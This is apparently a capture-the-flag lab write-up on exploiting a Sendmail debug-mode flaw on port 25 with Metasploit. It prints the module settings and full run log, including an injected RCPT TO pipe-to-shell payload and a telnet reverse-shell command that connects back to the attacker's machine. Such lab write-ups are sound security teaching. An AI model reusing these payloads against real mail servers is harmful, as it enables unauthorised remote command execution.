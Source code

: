 # 2 of Diamonds - port 25

Looking at what's there, we see a SMTP service:

	220 2-of-diamonds Sendmail 5.51/5.17 ready at Wed, 3 Dec 86 14:47:00 PST

Once again searching in our Kali msfconsole we find a suitable ([exploit](https://www.exploit-db.com/exploits/45789)), with the description:

	This module exploits sendmail's well-known historical debug mode to
	escape to a shell and execute commands in the SMTP RCPT TO command.
	This vulnerability was exploited by the Morris worm in 1988-11-02.
	Cliff Stoll reports on the worm in the epilogue of The Cuckoo's Egg.

"The Cuckoo's Egg" becomes a recurring theme of this challenge, and is based on a [book](https://en.wikipedia.org/wiki/The_Cuckoo%27s_Egg) which can be found by [Googling](http://bayrampasamakina.com/tr/pdf_stoll_4_1.pdf).

Using metasploit, we get a shell.

```
msf5 exploit(unix/smtp/morris_sendmail_debug) > set rhosts 172.16.4.85
rhosts => 172.16.4.85
msf5 exploit(unix/smtp/morris_sendmail_debug) > set rport 25
rport => 25
msf5 exploit(unix/smtp/morris_sendmail_debug) > set lhost 172.16.4.84
lhost => 172.16.4.84
msf5 exploit(unix/smtp/morris_sendmail_debug) > set lport 9999
lport => 9999
msf5 exploit(unix/smtp/morris_sendmail_debug) > run

[*] Started reverse TCP double handler on 172.16.4.84:9999
[*] 172.16.4.85:25 - Connecting to sendmail
[*] 172.16.4.85:25 - Enabling debug mode and sending exploit
[*] 172.16.4.85:25 - Sending: DEBUG
[*] 172.16.4.85:25 - Sending: MAIL FROM:<KEIVbqb5hl25IWvYxyiCy6uVKX5DSbE5hwv>
[*] 172.16.4.85:25 - Sending: RCPT TO:<"| sed '1,/^$/d' | sh; exit 0">
[*] 172.16.4.85:25 - Sending: DATA
[*] 172.16.4.85:25 - Sending:  PATH=/bin:/usr/bin:/usr/ucb:/etc
[*] 172.16.4.85:25 - Sending: export PATH
[*] 172.16.4.85:25 - Sending: sh -c '(sleep 4179|telnet 172.16.4.84 9999|while : ; do sh && break; done 2>&1|telnet 172.16.4.84 9999 >/dev/null 2>&1 &)'
[*] 172.16.4.85:25 - Sending: .
[*] 172.16.4.85:25 - Sending: QUIT
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NzH560zCtmYsqE1M;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: ": Trying...: not found\r\nsh: Connected: not found\r\nsh: Escape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.4.84:9999 -> 172.16.4.85:58364) at 2018-12-03 22:50:11 +0000
[!] 172.16.4.85:25 - Do NOT type `exit', or else you may lose further shells!
[!] 172.16.4.85:25 - Hit ^C to abort the session instead, please and thank you

whoami
daemon
```
